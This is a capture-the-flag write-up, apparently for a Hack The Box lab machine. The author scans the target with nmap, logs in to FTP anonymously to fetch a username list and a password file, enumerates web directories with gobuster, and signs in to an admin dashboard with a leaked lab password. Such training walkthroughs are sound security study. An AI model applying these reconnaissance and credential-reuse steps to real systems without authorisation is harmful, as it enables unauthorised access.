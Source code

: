 This box is about "FTP".

### Scan
```shell
┌──(kali㉿kali)-[~/htb]
└─$ nmap -sC -sV 10.129.89.19  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-31 16:15 EDT
Nmap scan report for 10.129.89.19
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.233
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix
```

### Enumerate FTP

> The File Transfer Protocol (FTP) is a standard communication protocol used to transfer
computer files from a server to a client on a computer network. FTP users may
authenticate themselves with a clear-text sign-in protocol, generally using a username
and password. However, they can connect anonymously if the server is configured to
allow it.

Users can connect to the FTP server using "anonymous" account without password. Notice ```ftp-anon: Anonymous FTP login allowed (FTP code 230)```.

```shell
┌──(kali㉿kali)-[~/htb]
└─$ ftp 10.129.89.19
Connected to 10.129.89.19.
220 (vsFTPd 3.0.3)
Name (10.129.89.19:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40679|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||48500|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |***********************************************************************|    33       36.12 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (1.78 KiB/s)
ftp> get a
allowed.userlist        allowed.userlist.passwd
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||46198|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |***********************************************************************|    62      992.57 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (3.46 KiB/s)

┌──(kali㉿kali)-[~/htb]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                                                                                                                    
┌──(kali㉿kali)-[~/htb]
└─$ cat allowed.userlist.passwd   
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

### Enumerate Web App

Btw, **Wappalyzer** is a really good plug-in for browser. We can learn about the tech used on that website.

Base on that, we could even update our command below with ```-x php, html```.

```shell
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.89.19
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.89.19
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/31 16:26:19 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.129.89.19/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.89.19/css/]   
/js                   (Status: 301) [Size: 309] [--> http://10.129.89.19/js/]    
/fonts                (Status: 301) [Size: 312] [--> http://10.129.89.19/fonts/] 
/dashboard            (Status: 301) [Size: 316] [--> http://10.129.89.19/dashboard/]
```

Go to /dashboard, it redirects to login page.

![login page](/img/htb/crocodile-login.png)

login with ```admin:rKXM59ESxesUFHAd```

![flag page](/img/htb/crocodile-flag.png)
